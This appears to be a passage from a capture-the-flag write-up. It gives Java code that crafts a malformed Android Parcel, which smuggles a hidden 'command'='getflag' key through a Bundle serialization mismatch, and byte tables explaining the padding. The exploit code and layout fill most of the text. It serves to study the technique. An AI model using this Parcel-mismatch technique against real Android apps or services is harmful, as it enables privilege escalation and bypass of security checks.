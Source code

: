 ```java
        a.writeLong(0x11223344);
        // fake map
        // \7\0 => hide_len_key
        // command\0 => hide_content_key
        // \0\0 => hide_type_value
        // \7\0 => hide_len_value
        // getflag\0 => hide_content_value
        a.writeString("\7\0command\0\0\0\7\0getflag");
        a.writeInt(0);//fake_type
        a.writeString("");//fake_value
        a.writeString("command");//for bundle.getString("command")!=null
        a.writeInt(0);
        a.writeString("gotflag");
        int len = a.dataSize();
        b.writeInt(len);
        b.writeInt(0x4c444E42);
        b.appendFrom(a, 0, len);
        b.setDataPosition(0);

        byte[] raw = b.marshall();
        String output = Base64.encodeToString(raw, 0);
        Log.i("test", output);
```

## Other
I use this payload1 in match:
``` java
a.writeString("\7\0command\0\0\0\7\0getflag\0");
a.writeInt(0);//fake_type
a.writeString("1");//fake_value
```
But marshaling shows that fake_key contains 3 zero char after 'getflag'. It costs 6 bytes.
I search it and find that `writeString` method will put '\0' to the end of string, then pad size.

But if I remove the zero, `writeString("\7\0command\0\0\0\7\0getflag")`, the end zero will be at the end. It costs 44 bytes without padding.
The structure is 

|Message|len_key|content_key|type_value|len_value|content_value|len_key2|content_key2|type_value2|len_value2|content_value2|
|--|--|--|--|--|--|--|--|--|--|--|
|pad|15 00 00 00|07 00 00 00 "command" 00 00 00 00 00 00 07 00 00 00 "getflag" 00 00| 00 00 00 00|01 00 00 00| "1" | 07 00 00 00 | "command" | 00 00 00 00| 00 00 00 00 | null|
|pad 15 00 00 00|07 00 00 00| "command" 00 00|00 00 00 00|07 00 00 00|"getflag" 00 00 | 00 00 00 00 | 01 00 00 00 | "1" | 07 00 00 00 | "command"|

We can find the `type_value2` is error.
So we need to construct `fake_value1=""`.

|Message|len_key|content_key|type_value|len_value|content_value|len_key2|content_key2|type_value2|len_value2|content_value2|
|--|--|--|--|--|--|--|--|--|--|--|
|pad|15 00 00 00|07 00 00 00 "command" 00 00 00 00 00 00 07 00 00 00 "getflag" 00 00| 00 00 00 00|00 00 00 00| 00 00 00 00 | 07 00 00 00 | "command" | 00 00 00 00| 00 00 00 00 | null|
|pad 15 00 00 00|07 00 00 00| "command" 00 00|00 00 00 00|07 00 00 00|"getflag" 00 00 | 00 00 00 00 | 00 00 00 00 | 00 00 00 00 | 07 00 00 00 | "command"|
